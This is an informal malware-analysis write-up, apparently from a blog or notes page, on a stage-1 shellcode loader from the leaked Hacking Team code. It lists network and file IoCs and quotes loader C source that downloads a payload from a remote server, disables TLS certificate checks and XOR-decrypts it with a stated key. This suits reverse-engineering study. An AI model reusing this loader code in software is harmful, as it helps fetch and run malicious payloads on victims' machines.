



# Analysis for stage1 shellcode loader from hacking team

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Flowchart of code

<figure><figcaption></figcaption></figure>

Network IoC

https://172\[.]20\[.]20\[.]164

```
Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; MDDRJS)
```

Infection IoC(dropped files)

2s5s7k8w8b4i.dat

9z8o5d9l0p6c.dat

<figure><figcaption></figcaption></figure>


Ok so wtf . Let's get it . Loader.sln or loader.c

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

ok so startup and from startup to asm ? what happens in asm ? pic(position independent code) shellcode. cool and what this do ? basically will do Loader(0xdeadbeef) why?? idk why they chose that address but at that address it should be unpacked code. anyway let's keep going and see what happens in debugger. Correction we do Loader(eax) and eax is an ip address with a .dat file .png>)

Now if we follow the flow we go into loader&#x20;

<div>

<figure><figcaption></figcaption></figure>

 

<figure><figcaption></figcaption></figure>

</div>

For now we will just skip LoadVtable as it ubiques and big and we will return to it after we finish analysing the rest of it's capabilities. Now we go and inspect DownloadAndDecryptTls.

<figure><figcaption></figcaption></figure>

DownloadAndDecryptTls

<div>

<figure><figcaption></figcaption></figure>

 

<figure><figcaption></figcaption></figure>

 

<figure><figcaption></figcaption></figure>

</div>

Now a neat thing i notice during debugging.

<figure><figcaption></figcaption></figure>

Is that as you can see in the upper image and in the following snippet&#x20;

```
DWORD dwFileSize;
LPBYTE lpFileBuffer = DownloadAndDecryptTls(&pVtable, lpLoaderConfig->strUserAgent, 
		lpLoaderConfig->strUrl, 
		&dwFileSize, 
		lpLoaderConfig->dwXorKey, 
		lpLoaderConfig->dwXorKey ? TRUE : FALSE); 
```

is that it lpLoaderConfig is dynamically retrived. but from where? well apprently it downloads or uses internally that .dat file ? and what that .dat file is . Inspecting the archive

<figure><figcaption></figcaption></figure>

we see another cool file shellcode\_0x95d. If we inspect it in hxd

<figure><figcaption></figcaption></figure>

you'll see a bunch of api calls amd that url. so basically this is the actual shellcode :) dope we will take a look at it after we finish with this.

Now just for later xor key is 0x6281f17f. Now for a brief analyisis till the interest point ValidateCa. Till there nothing really special happen in this function most interesting thins is thet call to InternetOpenA, which initialises dll for networking stuff. Neat will be to inspect it dynamically to see one trick they did. The do it in c code by

&#x20;`hOpen = lpTable->InternetOpenA(strUserAgent, INTERNET_OPEN_TYPE_PRECONFIG, NULL, NULL, 0);`

which is one less argument ot the api. Anyway enough talk let's see what it happens in code.

So in debugger this looks like this

<figure><figcaption></figcaption></figure>

So i guess what happens here is because it uses INTERNET\_OPEN\_TYPE\_PRECONFIG it uses preconfigured structure and lptable has already the url in it .

Anyways next we have ValidateCA

<figure><figcaption></figcaption></figure>

so anyways why do we do this cause is simply determins if wanna do https or http

```
DWORD dwHttpsFlag = 0;

if( ValidateCA(lpTable) )
	dwHttpsFlag = INTERNET_FLAG_SECURE;
else
	dwHttpsFlag = INTERNET_FLAG_SECURE|INTERNET_FLAG_IGNORE_CERT_CN_INVALID|INTERNET_FLAG_IGNORE_CERT_DATE_INVALID;
```

Than we do a simple get request and than download file from http. Nothing too fancy here. if you wonder if anything special about hte code here i think not probably u can find exmaples on internet how to do this .How does DownloadFile function dowload files? using InternetReadFileExA.

So anyways here's the code

```
if( hOpen )
	{
		hConnect = lpTable->fpInternetConnect(hOpen,  serverName, INTERNET_DEFAULT_HTTPS_PORT, NULL, NULL, INTERNET_SERVICE_HTTP, 0, 0 );

		if( hConnect )
		{
			hReq = lpTable->fpHttpOpenRequest(hConnect, strGet, strResource, strHTTPVersion, NULL, NULL, dwHttpsFlag, 0 );

			if( hReq )
			{

			if( !ValidateCA(lpTable) )
			{
				DWORD dwFlags;
				dwBuffLen = sizeof(dwFlags);	
				lpTable->fpInternetQueryOption(hReq, INTERNET_OPTION_SECURITY_FLAGS,(LPVOID)&dwFlags, &dwBuffLen);
				dwFlags |= SECURITY_FLAG_IGNORE_UNKNOWN_CA;
				lpTable->fpInternetSetOption(hReq, INTERNET_OPTION_SECURITY_FLAGS, &dwFlags, sizeof (dwFlags) );
			}

				if( lpTable->fpHttpSendRequest(hReq, NULL, 0, NULL, 0) )
				{
					dwBuffLen = 16;
					dwIdx = 0;

					lpTable->HttpQueryInfoW(hReq, HTTP_QUERY_CONTENT_LENGTH, strBuff, &dwBuffLen, &dwIdx);
					*dwFileLen = lpTable->wtoi((LPWSTR) strBuff);

					LPBYTE lpFileBuffer = (LPBYTE) lpTable->VirtualAlloc(NULL, *dwFileLen, MEM_COMMIT, PAGE_READWRITE);			
					if (DownloadFile(lpTable, hReq, lpFileBuffer, *dwFileLen))
					{
						if (bXored)
							lpPayload = Decrypt(lpFileBuffer, *dwFileLen, dwXorKey);
						else
							lpPayload = lpFileBuffer;
					}
					
				} // if( lpTable->fpHttpSendRequest )
			} // if( hReq )
		} // if( hConnect )
	} // if( hOpen )


	/* close handles */
	if( hReq )
		lpTable->fpInternetCloseHandle(hReq);
	if( hConnect)
		lpTable->fpInternetCloseHandle(hConnect);
	if( hOpen)
		lpTable->fpInternetCloseHandle(hOpen);

	return lpPayload;
```

Now let's inspect the decrypt if check to see if it enteres the decrypt function or not. Based on my assumptions when experimenting bXored will be true so we should enter the decrypt function. Unfortunatelly our assumption was wrong because

.png>)

```
lpTable->fpHttpSendRequest is being used in the id not bXored and since the server is down
```

we won't be able to send a request to that mallicous server. Now i could emulate a server with frida but to what end cause we already have the payload outselves. now only to dissasamble it and decide if it's encrypted or not . Now the decryption also looks like&#x20;

```
LPDWORD lpD = (LPDWORD) lpBuffer;
LPBYTE lpB = (LPBYTE) lpBuffer;

for (UINT i=0; i<dwBuffLen/4; i++)
	lpD[i] ^= dwXorKey;
for (UINT i=dwBuffLen - (dwBuffLen%4); i<dwBuffLen; i++)
	lpB[i] ^= 0x41;

return lpBuffer;
```

which is a 2 key xor and dwXorkey is 0x6281f17f.

Now back to Loader function to solve the last part of the loader.

<figure><figcaption></figcaption></figure>
